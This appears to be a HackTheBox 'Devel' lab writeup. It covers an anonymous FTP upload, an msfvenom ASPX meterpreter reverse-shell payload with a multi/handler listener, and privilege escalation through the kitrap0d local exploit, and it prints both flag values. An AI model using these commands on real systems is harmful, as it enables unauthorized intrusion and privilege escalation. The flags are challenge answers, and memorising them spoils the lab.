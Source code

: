 # HackTheBox **Devel** Writeup

---

## Reconnaissance

Started with a simple nmap scan on the IP to gather information:

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```

![OutputNMAP](img1.png)

Examined the website hosted on port 80 using Burp Suite and found out ASP.NET is used. Also found that anonymous login is enabled on the FTP port. Uploaded a test file to the FTP share and confirmed access through the web page.

```bash
ftp $targetIP
anonymous

put tst.txt
ls
```

![FTP](img2.png)

## Initial Access

Knowing that ASP.NET is used, created a msfvenom payload for a reverse shell:

```bash
msfvenom --platform windows -a x86 -p windows/meterpreter/reverse_tcp LHOST=$myIP LPORT=6666 -f aspx > rev.aspx
```

Uploaded the reverse shell to the FTP share, opened msfconsole, and set up a multi handler:

```bash 
sudo msfconsole -q
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST $myIP
set LPORT 6666
run
```

Executed the script via the web page to establish a reverse shell.

![ReverseShell](img3.png)

Checked the user and found out we are running as IIS APPPOOL\WEB, unable to access the user flag.

## Privilege Escalation

Got the version of the operating system:

```bash
sysinfo
```

![Sysinfo](img5.png)

Backgrounded the session with `Ctrl+Z` and used `multi/recon/local_exploit_suggester` to find privilege escalation vectors.

```bash
use post/multi/recon/local_exploit_suggester 
```

Found `exploit/windows/local/ms10_015_kitrap0d` interesting and executed it:

```bash
use exploit/windows/local/ms10_015_kitrap0d
set SESSION 1
set LHOST $myIP
run
```

Confirmed escalated privileges:

```bash
sessions 2
getuid
```
![admin](img6.png)
## Flags

### User Flag

Path: `C:\Users\babis\Desktop\user.txt`

Flag: `1544bd120c356117182d3cd105bef7ea`

### Root Flag

Path: `C:\Users\Administrator\Desktop\user.txt`

Flag: `194de522e894dbc98b3d861632d8bd28`
